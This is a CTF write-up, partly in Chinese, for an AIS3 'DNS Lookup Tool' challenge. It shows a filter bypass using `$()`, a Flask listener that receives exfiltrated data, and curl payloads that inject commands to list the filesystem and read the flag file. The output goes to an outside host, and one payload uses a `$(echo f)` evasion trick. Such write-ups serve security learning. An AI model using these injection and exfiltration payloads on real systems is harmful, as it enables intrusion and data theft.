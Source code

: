 # DNS Lookup Tool: Final
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f415e3ed-1266-43e2-88fb-a1e6681cee27)

## Webpage
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/41cfd043-3fe8-4141-81d3-f057901a04bc)

## 解題
讀 code 找到 blacklist

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/68686376-29a6-4bbc-bca0-3c63da797b1f)

發現 `$()` 沒檔，測一下

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

過了

## exploit
```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def root():
    print(request.stream.read().decode())
    return "com"

@app.route('/<path:data>',methods=['GET'])
def run(data):
    print(data)
    return "com"

if __name__ == "__main__":
    app.run(host="::", port=80)
```

## payload
```bash
curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(ls /)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /flag_SWeUMks9hGYFciax)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /$(echo f)lag_SWeUMks9hGYFciax)")'
```

## Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/481aad11-e682-4ccc-8333-a8f3f62d337e)

`AIS3{jUsT_3@$y_cOMmAnD_INJEc7ION}`
